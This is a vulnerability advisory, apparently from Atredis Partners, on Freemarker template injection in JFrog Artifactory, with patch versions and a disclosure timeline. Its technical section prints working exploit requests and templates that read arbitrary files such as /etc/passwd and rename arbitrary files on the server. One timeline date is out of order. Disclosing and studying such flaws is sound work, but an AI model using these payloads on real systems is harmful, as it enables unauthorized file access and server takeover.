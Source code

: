 # JFrog Artifactory Insecure Freemarker Template Execution


## Vendors

* JFrog


## Affected Products

* JFrog Artifactory (6.10.1 tested, other versions are also affected)


## Summary

JFrog Artifactory allows an authenticated attacker to upload, deploy, and execute Freemarker templates. A malicious Freemarker template can execute sensitive Java functions due to the use of the DefaultObjectWrapper class within Artifactory. An attacker can leverage this to read and write arbitrary files on the Artifactory instance.


## Mitigation

* JFrog has released a patch for the following versions: 5.11.8 | 6.1.6 | 6.3.9 | 6.7.8 | 6.8.17 | 6.9.6 | 6.10.9 | 6.11.7 | 6.12.3 | 6.13.2 | 6.14.2 | 6.15.1 | 6.16.0


## Credit

This issue was identified by Ryan Hanson of Atredis Partners


## References

None


## Report Timeline

2019-09-20: Atredis Partners contacted the Apache Freemarker project to determine if this behavior was known and reported a similar issue in their demo application.

2019-09-25: Apache Freemarker resolved this issue in their demo application and recommends use of SimpleObjectWrapper instead of DefaultObjectWrapper going forward.

2019-10-25: Atredis Partners provided details of this issue to JFrog as it applies to the Artifactory product.

2019-12-09: Atredis Partners provided a copy of this advisory to CERT/CC and an update to JFrog.

2019-12-10: JFrog responded with information about available patches for this issue.

2019-01-23: Atredis Partners published this advisory.


## Technical Details

JFrog allows unauthenticated users to execute Freemarker templates that have been deployed and marked as filtered resources. This can be abused to read and write files on the filesystem of the Artfactory server. 

These attacks work by reusing Java objects that are within scope of the template. 

To read a file, the template first accesses the security object exposed by Artifactory and then traverses the object tree to gain access to a URI and URL object, which are then used to get the contents of a file. This can be represented with a single line: 

```
security.getClass().getProtectionDomain().getClassLoader().getURLs()[0].toURI().resolve('/etc/passwd').toURL().getContent()
```

To demonstrate the file read attack, a malicious Freemarker template must first be uploaded:

```
POST /artifactory/ui/artifact/upload HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
X-Requested-With: artUI
X-ARTIFACTORY-REPOTYPE: Maven
Content-Type: multipart/form-data; boundary=---------------------------929091233030188921154790807
Content-Length: 933
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

-----------------------------929091233030188921154790807
Content-Disposition: form-data; name="file"; filename="ssti.xml"
Content-Type: text/xml

<#attempt>
    <#assign filename=request.getParameter("filename")>
    <#assign protected_domain=security.getClass().getProtectionDomain()>
    <#assign urls=protected_domain.getClassLoader().getURLs()>
    <#assign file_url=urls[0].toURI().resolve(filename).toURL()>
    <#assign file_content=file_url.getContent()>
print("".join([<#list 0..999999999 as _><#assign byte=file_content.read()><#if byte == -1><#break></#if>chr(${byte}), </#list>]))
<#recover>
print("Failed to read ${filename}")
</#attempt>
-----------------------------929091233030188921154790807--
```

The next request deploys the uploaded file:

```
POST /artifactory/ui/artifact/deploy HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 308
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"action":"deploy","unitInfo":{"artifactType":"base","path":"/ssti.xml","mavenArtifact":false,"valid":true,"origArtifactType":"base","debianArtifact":false,"vagrantArtifact":false,"composerArtifact":false,"cranArtifact":false,"bundle":false,"type":"xml"},"fileName":"ssti.xml","repoKey":"libs-release-local"}
```

The deployed artifact is marked as a filtered resource, which will cause Artifactory to use the Freemarker template engine to process it:

```
POST /artifactory/ui/filteredResource?setFiltered=true HTTP/1.1
Host: 192.168.1.1:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Referer: http://192.168.1.1:8081/artifactory/webapp/ 
Content-Type: application/json;charset=utf-8
Request-Agent: artifactoryUI
X-Requested-With: artUI
Content-Length: 50
Cookie: SESSION=efaeadf4-3e9b-4a94-bcfe-2bc9c17c4a7d
Connection: close

{"repoKey":"libs-release-local","path":"ssti.xml"}
```

Finally, a request to `/artifactory/libs-release-local/ssti.xml?filename=/etc/passwd` is used to return the contents of the file or folder passed in the filename parameter. 

In addition to a file read, an attacker can also use this to create a File object with an arbitrary path if the web application is running in Tomcat's Catalina servlet container, which is the case with Artifactory. After creating two File objects, the `renameTo()` method can be used to move the file to an arbitrary location. 

The template below demonstrates use of the `renameTo()` method:

```
<#assign protected_domain=security.getClass().getProtectionDomain()>
<#assign loader=protected_domain.getClassLoader()>
<#assign root=loader.getResources()>
<#assign context=root.getContext()>
<#assign host=context.getParent()>
<#assign orig_appbase=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README.txt")} 
<#assign source_file=host.getAppBaseFile()>

${host.setAppBase("/opt/jfrog/artifactory/README2.txt")} 
<#assign dest_file=host.getAppBaseFile()>

orig: ${orig_appbase}
source_file: ${source_file}
dest_file: ${dest_file}
renamed?: ${source_file.renameTo(dest_file)?string}
restoring... ${host.setAppBase(orig_appbase?string)}
restored: ${host.getAppBaseFile()}
```

The template above works by traversing the object hierarchy to gain access to the `org.apache.catalina.core.StandardHost` object and then converting a string to a File by first calling `setAppBase()` with the string and then accessing the File object by calling `getAppBaseFile()`. This allows for a source and destination file to be created and used in a call to `renameTo()`. In this case it simply renames the `README.txt` file to `README2.txt`, but this can also be used by an attacker to compromise the Artifactory server, by rewriting `.ssh/authorized_keys` or another sensitive file.
